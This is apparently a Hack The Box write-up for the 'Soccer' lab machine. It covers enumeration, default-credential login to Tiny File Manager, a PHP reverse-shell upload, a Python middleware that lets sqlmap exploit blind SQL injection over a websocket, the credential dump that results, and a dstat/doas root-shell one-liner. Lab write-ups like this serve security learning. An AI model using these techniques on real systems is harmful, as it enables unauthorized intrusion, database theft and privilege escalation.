

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** `10.10.11.194 soccer.htb`

****nmap scan: TCP/IP****

```bash
Nmap scan report for 10.10.11.194
Host is up (0.46s latency).

PORT     STATE  SERVICE         VERSION
22/tcp   open   ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open   http            nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open   xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Tue, 28 Mar 2023 02:24:40 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Tue, 28 Mar 2023 02:24:41 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|     </html>
|   RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Tue, 28 Mar 2023 02:24:42 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data.
```

Web server is redirecting to hostname `soccer.htb`


`gobuster` found a directory - `/tiny`
```bash
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```

`/tiny` directory contains a file manager application - `
tinyfilemanager `
  * https://github.com/prasathmani/tinyfilemanager
  * It is a php webapp.




# Foothold

From app's github page https://github.com/prasathmani/tinyfilemanager#how-to-use, found default admin creds - `admin:admin@123`


The '`/tiny`' directory contains an 'upload' folder. Here we can upload any file without any restriction. *but the upload file deleted after few(1-2) minutes*

Just upload a php shell and get reverse shell on the box.

## Lateral Movement

Got shell as "www-data" user.

Running linpeas -

only 1 users on the box 

```bash
╔══════════╣ Users with console
player:x:1001:1001::/home/player:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

User "player" can run `doas` as root on "`/usr/bin/dstat`"
```bash
╔══════════╣ Checking doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

There are few active port in the local network
```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
```

There is an another webapp running on port 3000, and we can access it using vHost `soc-player.soccer.htb`
```bash
lrwxrwxrwx 1 root root 41 Nov 17 08:39 /etc/nginx/sites-enabled/soc-player.htb -> /etc/nginx/sites-available/soc-player.htb
server {
	listen 80;
	listen [::]:80;
	server_name soc-player.soccer.htb;
	root /root/app/views;
	location / {
		proxy_pass http://localhost:3000;
		proxy_http_version 1.1;
		proxy_set_header Upgrade $http_upgrade;
		proxy_set_header Connection 'upgrade';
		proxy_set_header Host $host;
		proxy_cache_bypass $http_upgrade;
	}
}
```

The app looks the same, but it does not have '`/tiny`' (tinyfilemanager). But the home page have some extra functionalities.


After signup we get to the `/check`


## Blind SQLi over websocket

And this endpoint is making websocket calls on port 9091, when we enter somethings in the input box.


Some odd behaver when sending "id" in the message, server return "Ticket Exists"


And in the "id" parameter found boolean based blind sql injection.


we could write a python script to automate the sql injection manually or create a middleware server that can heddle websocket requests for sqlmap.

Here is a middleware server written in python.

```py
from http.server import BaseHTTPRequestHandler, HTTPServer
import websockets
import asyncio
import json

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(data):

    async def lets_talk():
        async with websockets.connect(ws_server) as ws:
            payload = json.dumps({"id": data})
            await ws.send(payload)
            msg = await ws.recv()
            if msg:
                # print(f"> {msg}")
                return f"> {msg}"

    try:
        msg = asyncio.get_event_loop().run_until_complete(lets_talk())
        return msg
    except websockets.exceptions.ConnectionClosed as e:
        # print(e)
        return 'ConnectionClosedError'

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):

    def do_POST(self):
        if self.path == '/forward':
            content_length = int(self.headers['Content-Length'])
            content_type = self.headers['Content-Type']

            # Parse the POST data as JSON
            if 'application/json' in content_type:
                post_data = json.loads(self.rfile.read(content_length))
            else:
                # Return error if content type is not JSON
                self.send_error(400, 'Invalid content type')
                return

            # Extract the 'payload' parameter from the JSON object
            mw_data = post_data.get('payload')
            ws_resp = send_ws(mw_data)

            # If debug flag is set, print out the submitted payload to the console
            if self.server.debug:
                print("< "+mw_data)  # Print data recieved on the middleware server
                print(ws_resp)  # Print response recieved from websocket server

            # Add logic based on the ws server to send a response back to the client

            if ws_resp:
                self.send_response(200)
                self.send_header('Content-type', 'text/html')
                self.end_headers()
                self.wfile.write(ws_resp.encode())
            else:
                self.send_response(500)
                self.send_header('Content-type', 'text/html')
                self.end_headers()
            return

if __name__ == '__main__':
    httpd = HTTPServer(('127.0.0.1', 8080), SimpleHTTPRequestHandler)
    print("[+] Server started on 127.0.0.1:8080")
    httpd.debug = True
    httpd.serve_forever()
```

And running sqlmap on with the known information to automate database dump.

```bash
❯ sqlmap -u "http://127.0.0.1:8080/forward" -H "Content-Type: application/json" --data '{"payload": "*"}' --batch  --flush-session --dbs --dbms=mysql --technique=B --level=5 --risk=3

... [snip] ...

[14:13:28] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable 
[14:13:28] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[14:13:28] [INFO] checking if the injection point on (custom) POST parameter 'JSON #1*' is a false positive
(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 99 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"payload": "-4832 OR 5438=5438"}
---

... [snip] ...

[14:14:14] [INFO] testing MySQL
[14:14:16] [INFO] confirming MySQL
[14:14:19] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 8.0.0
[14:14:28] [INFO] fetching database names
[14:14:28] [INFO] fetching number of databases
[14:14:28] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[14:14:28] [INFO] retrieved: 5
[14:14:39] [INFO] retrieved: mysql
[14:15:37] [INFO] retrieved: information_schema
[14:19:28] [INFO] retrieved: performance_schema
[14:23:51] [INFO] retrieved: sys
[14:24:35] [INFO] retrieved: soccer_db
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Retrieve tables form "soccer_db" database.
```bash
sqlmap -u "http://127.0.0.1:8080/forward" -H "Content-Type: application/json" --data '{"payload": "*"}' --batch --dbms=mysql -D soccer_db --tables

... [snip] ...

[14:28:35] [INFO] fetching tables for database: 'soccer_db'
[14:28:35] [INFO] fetching number of tables for database 'soccer_db'
[14:28:35] [INFO] retrieved: 1
[14:28:51] [INFO] retrieved: accounts
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```


Dumping data from "soccer_db" database.
```bash
sqlmap -u "http://127.0.0.1:8080/forward" -H "Content-Type: application/json" --data '{"payload": "*"}' --batch --dbms=mysql -D soccer_db -T accounts --dump

... [snip] ...

Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+

```

# Privesc

## dstat with doas

* Got ssh shell as user "player" with dumped creds -> `player:PlayerOftheMatch2022`

And we already know from the linpeas scan that User "player" can run `doas` as root on "`/usr/bin/dstat`"
```bash
╔══════════╣ Checking doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

* `doas` is a `sudo` alternative for OpenBSD

And from gtfobins -> https://gtfobins.github.io/gtfobins/dstat/

```bash
echo 'import os; os.execv("/bin/bash", ["bash"])' >/usr/local/share/dstat/dstat_xxx.py
doas -u root /usr/bin/dstat --xxx
```


# Beyond root

when we input "id" as value in the json data it returned true with "Ticket Exists" message.

And from the source code of the `/root/app/server.js` after root,

Here, This line is handling the "id" key value
```js
var id = JSON.parse(data).id;
```

So, if we test this code
```js
// Parse the JSON data string
const data = '{"id": "id"}';
const obj = JSON.parse(data);

// Log the value of the "id" key
console.log(obj.id);
```

It outputs a unquotes string -> id

And, here is the sql query which is handling the database request, and that `id` variable form the script directly inserted in the query.
```bash
const query = `Select id,username,password  FROM accounts where id = ${id}`;
```

So, the query becomes `Select id,username,password  FROM accounts where id = id;` and this return true.
```bash
mysql> Select id,username,password  FROM accounts where id = id;
+------+----------+----------------------+
| id   | username | password             |
+------+----------+----------------------+
| 1324 | player   | PlayerOftheMatch2022 |
+------+----------+----------------------+
1 row in set (0.00 sec)
```


